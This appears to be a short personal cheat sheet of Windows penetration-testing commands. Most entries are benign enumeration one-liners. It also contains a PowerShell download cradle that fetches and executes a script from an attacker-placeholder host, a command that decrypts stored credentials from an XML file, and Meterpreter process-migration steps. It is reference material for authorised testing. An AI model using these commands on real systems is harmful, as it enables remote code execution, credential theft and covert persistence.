 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Windows_General_Shit
---
```


<span style="font-size: 35px; color:red"><b>Useful General Stuff</b></span>
&nbsp;

<span style="font-size: 25px; color:white"><b>Download Cradle</b></span>
```shell
Invoke-WebRequest -Uri "http://<IP>/file" -OutFile "C:\path\file"
```
OR
```
iex((new-object system.net.webclient).downloadstring('http://<ATTACKER_IP>/run.txt'))
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Windoes see all directories (also hidden ones)</b></span>
```
dir -force
```
or
```powershell
tree /a /f
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>PowerShell Stored Password in .XML</b></span>
To Decrypt:
```
$cred = Import-CliXml -Path <CREDENTIALS.XML>; $cred.GetNetworkCredential() | Format-List *;
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Powershell enumerate running Processes</b></span>
```
Get-Service | where {$_.Status -eq "Running"}
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Get OS Version</b></span>
```
[environment]::OSVersion.Version
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Get OS Architecture</b></span>
```
[Environment]::Is64BitOperatingSystem
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Migrate With Metasploit</b></span>
Within meterpreter:
```shell
ps | grep <program.exe>
migrate <PID>
```
(good example of process to migrate to is `explorer.exe`)
